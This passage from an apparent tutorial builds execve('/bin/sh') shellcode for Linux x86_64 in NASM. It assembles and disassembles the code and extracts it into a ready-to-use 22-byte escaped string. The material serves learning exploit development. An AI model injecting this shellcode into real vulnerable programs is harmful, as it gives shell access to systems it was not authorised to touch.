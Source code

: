 Next, the address of the string `/bin/sh` is moved to the RDI register and pushed onto the stack:
```nasm
mov rdi,0x68732f2f6e69622f ; /bin/sh
push rdi
```

We move the stack pointer into the RDI register, which is now pointing to the start of the `/bin/sh` string, and then push the value 59, which corresponds to the `execve` system call in x86_64 assembly, onto the stack:
```nasm
push rsp
pop rdi
push 59
```

Finally, we set the system call number in RAX, and perform the `execve` system call:
```nasm
pop rax
cdq
syscall
```

We can compile the shellcode as any NASM file:
```console
$ nasm -f elf64 shellcode.s -o shellcode.o
$ ld shellcode.o -o shellcode
```

> Another way to compile it is to use GCC: `gcc -nostdlib -static shellcode.s -o shellcode`
{: .prompt-info}

We can verify that the shellcode has been properly compiled:
```console
$ objdump -M intel -d shellcode

shellcode: file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <_start>:
  401000:	48 31 f6 	xorrsi,rsi
  401003:	56   	push   rsi
  401004:	48 bf 2f 62 69 6e 2f 	movabs rdi,0x68732f2f6e69622f
  40100b:	2f 73 68 
  40100e:	57   	push   rdi
  40100f:	54   	push   rsp
  401010:	5f   	poprdi
  401011:	6a 3b	push   0x3b
  401013:	58   	poprax
  401014:	99   	cdq
  401015:	0f 05	syscall
```

Now take your sysadmins skills to shine, or as I did copy it from [cocomelonc](https://cocomelonc.github.io/tutorial/2021/10/09/linux-shellcoding-1.html):
```console
$ objdump -d shellcode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
```


[^footnote]: Memory paging is an operating system memory management technique that divides a computer's primary memory into smaller parts, called pages.
[^fn-nth-2]: These are special routines that halt the software execution, usually to switch between userland and kernelspace.
[^fn-nth-3]: Opcode is the portion of a machine language instruction that specifies the operation to be performed.